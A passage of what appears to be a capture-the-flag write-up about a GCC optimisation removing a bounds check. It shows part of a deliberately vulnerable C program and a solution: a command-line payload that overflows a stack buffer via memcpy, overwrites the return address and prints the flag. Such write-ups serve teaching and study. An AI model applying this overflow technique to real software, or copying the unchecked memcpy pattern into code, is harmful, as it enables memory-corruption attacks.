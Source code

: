       printf ("replace %d bytes of second arg with bytes from first\n", i);
      memcpy (arg2, arg1, i);

      printf ("you new string: %s\n", arg2);

      /* if there was replacement and after replacement strings are different then show key */
      if (i != 0 && arg1[0] != arg2[0]) key();

      return 0;
    }

Application compiled with `gcc -O2 ./test.c -Wall -Wextra -Werror -g` flags on x86-64 machine with GCC 8.2.0. You should force application to print "you got a flag" string.

Application binary: [gcc-optimization-issue-ctf-like-prog](/assets/gcc-optimization-issue-ctf-like-prog)

Solution
--------

As we already know test `i < MAX_LENGTH` will be removed from optimized code. As result we provide almost any `i` to `memcpy (arg2, arg1, i);` command. As result we can rewrite return address on a stack providing new value through `arg1`:

    $ ./gcc-optimization-issue-ctf-like-prog 11112222`printf '\xd0\x07\x40'` nevermind 0
    replace 82 bytes of second arg with bytes from first
    you new string: 11112222?@
    you got a flag
    Segmentation fault
